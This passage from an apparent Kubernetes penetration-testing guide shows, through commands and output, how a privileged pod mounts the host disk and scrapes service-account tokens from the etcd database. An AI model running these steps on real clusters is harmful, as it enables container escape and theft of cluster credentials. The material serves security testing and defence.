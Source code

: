 **First, check out the storage devices attached to the host:** 
*This example is run on a GKE cluster*
```
kubectl exec -it priv-exec-pod -- fdisk -l
Disk /dev/sda: 100 GiB, 107374182400 bytes, 209715200 sectors
Disk model: PersistentDisk
...omitted for brevity...

Device       Start       End   Sectors  Size Type
/dev/sda1  8704000 209715166 201011167 95.9G Linux filesystem
/dev/sda2    20480     53247     32768   16M ChromeOS kernel
/dev/sda3  4509696   8703999   4194304    2G ChromeOS root fs
...omitted for brevity...
```

**Make a mount point and mount the host's storage device into the pod**
```
kubectl exec -it priv-exec-pod -- mkdir /host
kubectl exec -it priv-exec-pod -- bash -c "mount /dev/sda1 /host/"
```

You are now ready to exec into your pod and see what's in `/host/`.

#### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```

**Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```
